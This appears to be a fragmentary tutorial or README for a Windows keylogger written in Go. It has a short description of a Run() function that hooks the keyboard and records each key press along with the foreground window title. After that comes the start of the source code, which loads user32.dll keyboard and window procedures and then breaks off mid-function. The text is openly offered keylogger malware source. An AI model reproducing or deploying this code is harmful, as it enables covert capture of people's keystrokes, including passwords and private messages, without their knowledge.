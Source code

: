 ```go
			}
		}
	}
}

```
Function Run() runs the keylogger.  
First initialize a buffered channel to store keyboard events then install the low level keyboard hook using `keyboard.Install()`.  
defer uninstallation of the hook so that it gets uninstalled when the function returns.
Then in an infinite for loop get the foreground window using GetForegroundWindow() and when a key is pressed send the key to the key_out channel and the window name to window_out channel.  

# Code:

```go
package main

import (
	"fmt"
	"os"
	"os/signal"

	"syscall"
	"unsafe"

	"github.com/moutend/go-hook/pkg/keyboard"
	"github.com/moutend/go-hook/pkg/types"
	"golang.org/x/sys/windows"
)


var (
	mod = windows.NewLazyDLL("user32.dll")

	procGetKeyState         = mod.NewProc("GetKeyState")
	procGetKeyboardLayout   = mod.NewProc("GetKeyboardLayout")
	procGetKeyboardState    = mod.NewProc("GetKeyboardState")
	procGetForegroundWindow = mod.NewProc("GetForegroundWindow")
	procToUnicodeEx         = mod.NewProc("ToUnicodeEx")
	procGetWindowText       = mod.NewProc("GetWindowTextW")
	procGetWindowTextLength = mod.NewProc("GetWindowTextLengthW")
)

type (
	HANDLE uintptr
	HWND   HANDLE
)

// Gets length of text of window text by HWND
func GetWindowTextLength(hwnd HWND) int {
	ret, _, _ := procGetWindowTextLength.Call(
		uintptr(hwnd))

	return int(ret)
}

// Gets text of window text by HWND
func GetWindowText(hwnd HWND) string {
	textLen := GetWindowTextLength(hwnd) + 1

	buf := make([]uint16, textLen)
```